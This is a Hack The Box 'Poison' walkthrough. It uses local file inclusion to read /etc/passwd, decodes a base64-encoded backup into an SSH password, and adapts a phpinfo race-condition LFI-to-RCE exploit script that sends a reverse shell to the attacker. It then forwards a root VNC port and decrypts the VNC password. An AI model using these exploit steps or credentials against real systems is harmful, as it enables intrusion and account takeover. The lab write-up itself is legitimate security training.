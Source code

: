 ```yaml
---
layout: PostSimple
date: 2020-07-22
title:     "Hack The Box - Poison"
tags: ['freebsd','medium','vnc','lfi','race_condition']
categories: HackTheBox OSCP-Like
---
```


![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled.png)

Poison is an Medium box, getting initial is by finding the LFI and doing race condition or we can get the ssh password of the user directly by decoding the base64 and root is port forwarding VNC to our machine and login it as root.

Link: [https://www.hackthebox.eu/home/machines/profile/132](https://www.hackthebox.eu/home/machines/profile/132)

Let's Begin with our Initial Nmap Scan.

## Nmap Scan Results

```bash
PORT   STATE SERVICE  VERSION
22/tcp open  ssh      OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  ssl/http Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: FreeBSD 11.0-RELEASE - 12.0-CURRENT (97%), FreeBSD 11.0-STABLE (95%), FreeBSD 11.0-CURRENT (94%), FreeBSD 11.0-RELEASE (94%), FreeBSD 9.1-STABLE (92%), FreeBSD 7.0-RELEASE (91%), FreeBSD 12.0-CURRENT (90%), Sony Playstation 4 or FreeBSD 10.2-RELEASE (90%), FreeBSD 7.0-RELEASE-p2 - 7.1-PRERELEASE (89%), FreeNAS 9.10 (FreeBSD 10.3-STABLE) (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   203.44 ms 10.10.14.1
2   203.51 ms 10.10.10.84
```

## HTTP Enumeration

This webpage contains some php files, the `Scriptname` will helps us to diplay them.

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%201.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%201.png)

Here I tried to view `phpinfo` and it actually worked and also note that parameter helps to locate the files.

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%202.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%202.png)

Likewise I started checking all the files. Here we can see one more file called `pwdbackup.txt`

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%203.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%203.png)

## Getting User Shell

### Method 1

Checking that file reveals that it contains some base64 encoded stuff and its 13times encoded.

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%204.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%204.png)

So I just decoded that multiple times using CyberChef and I got a password thing.

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%205.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%205.png)

We know the `backup.php` uses a parameter called `file` so I tried for any LFI possible and I got `/etc/passwd` Here can see another user called charix.

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%206.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%206.png)

Tried login with ssh with the creds we got `charix : Charix!2#4%6&8(0`

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%207.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%207.png)

### Method 2

We know that we can view PHP Info and there is also LFI and  that uses race condition and can turn an LFI vulnerability to a remote code execution (RCE) vulnerability. There is a python script for this.

> [https://github.com/M4LV0/LFI-phpinfo-RCE/blob/master/exploit.py](https://github.com/M4LV0/LFI-phpinfo-RCE/blob/master/exploit.py)

And I changed some few things.

- Give the exact location of phpinfo.php
- Change the GET request to /browse.php?file= because this is where we found LFI

```py
REQ1="""POST /phpinfo.php?a="""+padding+""" HTTP/1.1\r
HTTP_ACCEPT: """ + padding + """\r
HTTP_USER_AGENT: """+padding+"""\r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
Content-Length: %s\r
Host: %s\r
\r
%s""" %(len(REQ1_DATA),host,REQ1_DATA)
    #modify this to suit the LFI script   
    LFIREQ="""GET /browse.php?file=%s HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Host: %s\r
```

- Added my IP address and the port which I need to Listen

Now if I run the script

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%208.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%208.png)

I got the shell as `www`

## Privilege Escalation

When checking the home directory, I found `secret.zip`

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%209.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%209.png)

Downloaded to my machine and extracted that, it asked for password and I used the same Charix ssh password and it extracted.

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%2010.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%2010.png)

But the file looks different.

When checking the running process, I found that VNC is running as root.

```bash
charix@Poison:~ % ps aux
.
.
.
root    529   0.0  0.9  23620  9064 v0- I    05:59     0:00.22 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800
```

I checked whether the port is open and port 5901 is the port usually VNC runs.

```bash
charix@Poison:~/.vnc % netstat -an
Active Internet connections (including servers)
Proto Recv-Q Send-Q Local Address          Foreign Address        (state)
tcp4       0      0 10.10.10.84.64487      10.10.14.20.3333       ESTABLISHED
tcp4       0      0 10.10.10.84.80         10.10.14.20.41928      CLOSE_WAIT
tcp4       0     44 10.10.10.84.22         10.10.14.20.36254      ESTABLISHED
tcp4       0      0 127.0.0.1.25           *.*                    LISTEN
tcp4       0      0 *.80                   *.*                    LISTEN
tcp6       0      0 *.80                   *.*                    LISTEN
tcp4       0      0 *.22                   *.*                    LISTEN
tcp6       0      0 *.22                   *.*                    LISTEN
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
udp4       0      0 *.514                  *.*
```

So I did a local port forwarding of the port 5901 to my machine.

```bash
root@kali:~/CTF/HTB/Boxes/Poison# ssh -L 5901:127.0.0.1:5901 charix@10.10.10.84
```

Now We can try connecting to it by using vncviewer and it asks for password, So I guessed that the `secret` file we got from the zip can be password.

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%2011.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%2011.png)

And It worked I logged in as root.

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%2012.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%2012.png)

We own the box!!

We can decrypt the VNC password using this [tool](https://github.com/trinitronx/vncpasswd.py).

```bash
root@kali:~/CTF/HTB/Boxes/Poison/vncpasswd.py# python vncpasswd.py -d -f secret
Decrypted Bin Pass= 'VNCP@$$!'
Decrypted Hex Pass= '564e435040242421'
```